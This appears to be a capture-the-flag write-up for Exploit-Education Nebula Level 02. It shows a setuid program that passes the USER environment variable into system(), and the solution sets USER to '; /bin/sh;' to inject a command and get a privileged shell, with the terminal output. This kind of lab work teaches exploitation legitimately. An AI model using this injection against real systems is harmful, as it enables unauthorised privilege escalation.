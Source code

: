 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 02"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### Exploit Education Nebula Level 2

## Challenge
[Challenge](https://exploit.education/nebula/level-02/)<br>
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
To do this level, log in as the `level02` account with the password `level02`. Files for this level can be found in `/home/flag02`.

## Vulnerability
This program is similar to the last challenge. 
```
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
printf("about to call system(\"%s\")\n", buffer);
```
We can see here that the command echo is copied into the buffer along with the environment variable `USER`
if we replace the `USER` env variable with `;/bin/sh` a shell will be executed after the `echo` command

## Exploitation
The `flag02` program has the set user id bit set
```
-rwsr-x--- 1 flag02 level02 7438 2011-11-20 21:22 flag02
```
Lets add `; /bin/sh;` to the env variable and execute the program
```
level02@nebula:/home/flag02$ USER='; /bin/sh;'
level02@nebula:/home/flag02$ env | grep USER
USER=; /bin/sh;
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo ; /bin/sh; is cool")
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

### Solved!